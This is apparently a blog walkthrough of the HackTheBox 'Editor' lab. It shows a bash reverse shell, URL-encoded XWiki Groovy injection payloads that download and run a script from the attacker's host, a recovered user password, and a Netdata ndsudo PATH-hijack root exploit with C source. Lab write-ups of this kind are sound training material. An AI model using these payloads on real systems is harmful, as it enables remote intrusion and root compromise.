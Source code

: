 ```yaml
---
title: "Editor HackTheBox Writeup"
date: 2025-08-31
tags: [ssh, HackTheBox, ndsudo]
categories: [HackTheBox]
---
```


# HackTheBox - Editor

> **Note**: This writeup contains image placeholders. To see the actual screenshots, replace the placeholder images in `static/images/hackthebox/Editor/` with your real HackTheBox screenshots.

![CTF Challenge Banner - Replace with your actual screenshot](/images/hackthebox/Editor/editor-banner.png)

# Reccon

As usual we will start with the *Nmap*
```
nmap -sC -sV --min-rate 5000 -T5 -Pn -p- 10.10.11.80
```

![Nmap Scan Results - Replace with your actual screenshot](/images/hackthebox/Editor/nmap-results.png)

Looking at the result , we have 

-   22/tcp   open  ssh     OpenSSH
-  80/tcp   open  http    nginx
-  8080/tcp open  http    Jetty

Let add *editor.htb* in our hosts file
```
echo "10.10.11.80 editor.htb" | sudo tee -a /etc/hosts
```

# WebEnumeration

On port 80 we have

![Port 80 Web Enumeration - Replace with your actual screenshot](/images/hackthebox/Editor/port80-enum.png)

And on port *8080*

![Port 8080 Web Enumeration - Replace with your actual screenshot](/images/hackthebox/Editor/port8080-enum.png)

I saw the *Xwiki* version in the bottom , when i googled about it , i came acrros this CVE 2025-24893 

![CVE Information - Replace with your actual screenshot](/images/hackthebox/Editor/cve-info.png)

and for the exploit , i got this [Exploit](https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py) 
To get the shell , we first need to create *shell.sh*

```
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP>/9001 0>&1
```

After creating a *shell.sh* start a python server in you local machine

```
python3 -m http.server 8000
```

Then in the browser Paste this encoded URL

 ```
  http://editor.htb:8080/xwiki/bin/view/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln("wget%20-qO%20/tmp/shell.sh%20http://10.10.14.205:8000/shell.sh".execute().text)%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D

 ```

Then have a listener of your choice , mine is *net-cat*

```
rlwrap nc -lvnp 9001
```

Then execute your payload
```
http://editor.htb:8080/xwiki/bin/view/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln(%22bash%20/tmp/shell.sh%22.execute().text)%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D
```

And **Boom** u got your shell

![Shell Access - Replace with your actual screenshot](/images/hackthebox/Editor/shell-access.png)

In **/etc/passwd** u will find that there is a user called **oliver**

```
oliver:x:1000:1000:,,,:/home/oliver:/bin/bash
```

Then in the **WEB-INF** u will find **hibernate.cfg.xml**
In which u will find the password of **Oliver**

```
theEd1t0rTeam99
```

![Hibernate Configuration - Replace with your actual screenshot](/images/hackthebox/Editor/hibernate-config.png)
```
ssh oliver@editor.htb
```

Getting into the user , we got our **user.txt**

# Getting the Root

On Localhost at port 19999 there is a service running called **netdata**

![Netdata Service - Replace with your actual screenshot](/images/hackthebox/Editor/netdata-service.png)

So we did some Port forwarding

```
ssh -L 19999:127.0.0.1:19999 oliver@editor.htb
```

Paste this in your browser

```
http://localhost:19999/
```

![Port Forwarding - Replace with your actual screenshot](/images/hackthebox/Editor/port-forwarding.png)

Clicking on the **Please update them** , we get the version **1.45.2**

![Version Information - Replace with your actual screenshot](/images/hackthebox/Editor/version-info.png)

After digging the internet we get this [CVE-2024-32019](CVE-2024-32019) **Oliver** has permission to run `ndsudo`:

1. Place an executable with a name that is on `ndsudo`'s list of commands (e.g. `nvme`) in a writable path
2. Set the `PATH` environment variable so that it contains this path
3. Run `ndsudo` with a command that will run the aforementioned executable First we need to make an **exploit.c** binary , then compile it

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);       // Switch to root
    setgid(0);       // Switch group to root
    system("/bin/bash");  // Spawn a root shell
    return 0;
}
```

Then compile it

```
gcc -o nvme exploit.c
```

Then we need to upload the exploit.c in Oliver's **/tmp** directory , for that we will use python server

```
python3 -m http.server 8000
```

Then the following

```
curl http://<YOUR-IP>:8000/nvme -o nvme
chmod +x nvme
export PATH=/tmp:$PATH
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

And **Boom** we got the root.txt

![Root Flag - Replace with your actual screenshot](/images/hackthebox/Editor/root-flag.png)

---

**Image Setup Instructions:**
To display the actual screenshots in this writeup, replace the placeholder images in `static/images/hackthebox/Editor/` with your real HackTheBox screenshots. Use the same filenames as referenced above.
